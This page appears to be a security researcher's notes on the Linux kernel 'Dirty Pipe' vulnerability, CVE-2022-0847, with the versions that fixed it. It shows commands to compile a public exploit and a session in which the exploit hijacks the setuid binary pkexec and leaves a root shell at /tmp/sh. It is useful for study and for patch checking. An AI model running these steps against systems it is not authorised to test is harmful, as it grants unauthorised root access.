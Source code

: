 icon:fontawesome/solid/unlock-keyhole

# CVE-2022-0847

This is the story of CVE-2022-0847, a vulnerability in the Linux kernel since 5.8 which allows overwriting data in arbitrary read-only files. This leads to privilege escalation because unprivileged processes can inject code into root processes.

It is similar to CVE-2016-5195 “Dirty Cow” but is easier to exploit.

The vulnerability was fixed in Linux 5.16.11, 5.15.25 and 5.10.102.

## Compiling

- [dirtypipez.c](../assets/files/dirtypipez.c)

```bash
$ gcc dirtypipez.c -o dirtypipez

$ file dirtypipez
dirtypipez: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f7aee8d04713d6c27bc73e3f5fb59b1eee5feeaf, for GNU/Linux 3.2.0, not stripped
```

## Exploiting

```bash
$ id
uid=1000(crypt0rr) gid=1000(crypt0rr) groups=1000(crypt0rr)

$ ./dirtypipez /usr/bin/pkexec
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
#
```

The vulnerable binary is run from /tmp/sh. Remember to remove it after using/re-using.

```bash
$ ls -l /tmp/sh
-rwsr-xr-x 1 root crypt0rr 186 Mar  8 10:19 /tmp/sh
```

## References

- [Dirtypipe.cm4all.com - The Dirty Pipe Vulnerability](https://dirtypipe.cm4all.com/)
- [Cve.mitre.org - CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)
- [Twitter.com - CVE-2022-0847 Dirty Pipe](https://twitter.com/jas502n/status/1500879361448493056?s=11)
